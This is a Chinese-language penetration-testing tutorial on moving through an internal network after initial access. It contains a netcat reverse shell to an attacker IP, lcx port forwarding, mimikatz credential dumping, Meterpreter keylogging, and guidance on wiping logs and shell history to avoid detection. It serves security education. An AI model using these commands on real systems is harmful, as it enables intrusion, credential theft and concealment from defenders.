# 课程 P1：内网生存之道 🕵️♂️


在本节课中，我们将学习内网渗透测试的核心流程与实用技巧。课程内容主要分为四个部分：内网转发、信息收集、横向移动以及痕迹清理。我们将通过简单的语言和具体的工具演示，帮助初学者理解内网渗透的基本思路和操作方法。





---













## 一、内网转发 🔄






上一节我们介绍了课程概述，本节中我们来看看如何进入内网后的第一步：端口转发与代理。当我们从外部网络成功进入一台内网服务器（通常称为“跳板机”或“入口点服务器”）后，由于防火墙或网络策略限制，可能无法直接访问内网的其他资源。此时，我们需要使用端口转发或代理工具来建立通道。







以下是几种常见的工具及其基本用法：

*   **Lcx**：用于端口转发。基本命令是将目标服务器的3389端口转发到本地的其他端口。
    ```bash
    # 在目标服务器上执行，将本地3389转发到21端口
    lcx -slave 你的公网IP 3333 127.0.0.1 3389
    # 在你的公网服务器上执行，监听3333并转发到4444
    lcx -listen 3333 4444
    ```
*   **Nc (Netcat)**：用于反弹Shell。可以在目标机器上执行命令，将命令行会话反弹到攻击者的监听端口。
    ```bash
    # 在攻击机上监听4444端口
    nc -lvp 4444
    # 在目标机上执行，将cmd反弹到攻击机
    nc 攻击机IP 4444 -e cmd
    ```
*   **Earthworm (EW) / Neo-reGeorg**：功能强大的Socks5代理工具，支持多级跳板，适合复杂内网环境。
*   **S5.py**：一个Python编写的Socks5代理脚本，使用方便，可配合Proxifier等软件管理代理流量。

**过渡**：成功建立内网通道后，我们便获得了在内网中行动的能力。接下来，我们需要在已控制的服务器上进行深入的信息收集。

---

## 二、信息收集 📋

上一节我们掌握了进入内网的方法，本节中我们来看看进入服务器后首先要做的事情：全面收集信息。信息收集是内网渗透的基石，目的是发现密码规律、关键资产和管理员习惯。





以下是信息收集的几个关键方向：






*   **Windows密码**：使用工具（如`mimikatz`）读取服务器内存或文件中的密码哈希或明文密码。管理员常使用有规律的密码。
    ```bash
    # 以管理员权限运行mimikatz
    privilege::debug
    sekurlsa::logonpasswords
    ```
*   **数据库密码**：查找MySQL等数据库的配置文件或连接字符串，其中可能保存了密码。
*   **浏览器密码与历史记录**：获取浏览器保存的密码和访问历史，可能发现未暴露的内网后台地址。
*   **文件搜索**：在服务器上搜索包含“password”、“config”、“备份”等关键词的文件，常能找到密码本或配置文件。
*   **键盘记录**：通过植入键盘记录器或使用Meterpreter等框架的`keyscan`功能，记录用户的输入，获取账号密码。
    ```bash
    # 在Meterpreter会话中
    keyscan_start
    keyscan_dump
    ```
*   **中间人攻击**：在内网中实施ARP欺骗等中间人攻击，截获网络流量，可能获取明文传输的密码。



**过渡**：通过细致的信息收集，我们往往能掌握内网的密码规律和关键资产分布。有了这些信息，我们就可以开始在内网中横向移动，扩大战果。

---

## 三、横向移动 🚀

上一节我们学习了如何收集关键信息，本节中我们来看看如何利用这些信息在内网中扩大控制范围，即横向移动。横向移动的核心是使用已获取的凭证或漏洞，去访问和控制网络中的其他机器。

以下是横向移动的常见方法：

*   **密码爆破**：使用收集到的用户名和密码规律生成字典，对内网主机的常见服务（如RDP、SSH、SMB、MySQL）进行爆破。
*   **漏洞利用**：扫描内网主机，寻找已知漏洞。
    *   **端口扫描**：针对性扫描`445`(SMB)、`1433`(MSSQL)、`3306`(MySQL)、`7001`(WebLogic)、`8080`(Web服务)等端口。
    *   **漏洞利用**：利用如`MS17-010`(永恒之蓝)、`WebLogic反序列化`等在内网中可能未修复的漏洞。
*   **Pass The Hash/Ticket**：在Windows域环境中，使用获取的密码哈希或Kerberos票据进行认证，无需明文密码。
*   **服务利用**：利用高权限服务（如DCOM、WMI、PsExec）在远程主机上执行命令。

**过渡**：在完成横向移动，基本控制目标内网后，为了保持隐蔽性和清理现场，必须进行最后的痕迹清理工作。

---




## 四、痕迹清理 🧹






上一节我们探讨了如何在内网中横向移动，本节也是最后一节，我们将学习渗透测试的收尾阶段：清理痕迹。清除在渗透过程中留下的日志和证据，是避免被发现的重要步骤。

以下是需要清理的主要痕迹类型：

*   **操作系统日志**：包括安全日志、系统日志、应用日志，其中记录了登录、进程创建等事件。
    *   **Windows**：清理`Event Viewer`中的相关日志。
    *   **Linux**：清理`/var/log/`目录下的`auth.log`、`secure`等文件。
*   **Web服务日志**：如果通过Web漏洞进入，需清理Web服务器（如Apache、Nginx、IIS）的访问日志和错误日志。
*   **数据库日志**：清理数据库的查询日志、慢查询日志等。
*   **工具残留**：删除上传的渗透工具、创建的临时文件、后门程序等。
*   **历史命令**：清理当前用户或相关用户的命令行历史（如Linux的`.bash_history`）。

**建议**：可以编写自动化脚本，在渗透结束后批量清理指定时间段内的相关日志。

---


## 总结 📝



本节课我们一起学习了内网渗透测试的完整流程。
1.  首先通过**内网转发**技术建立稳定的通信通道。
2.  然后在入口服务器进行深入的**信息收集**，核心是获取密码和相关规律。
3.  接着利用收集到的信息进行**横向移动**，通过密码爆破和漏洞利用控制更多主机。
4.  最后进行**痕迹清理**，清除活动日志，保持隐蔽。


整个流程的核心可以归结为**信息收集**，充分的信息是后续所有步骤成功的关键。内网渗透是一个耗时且需要耐心的过程，希望本教程能为你提供一个清晰的入门指引。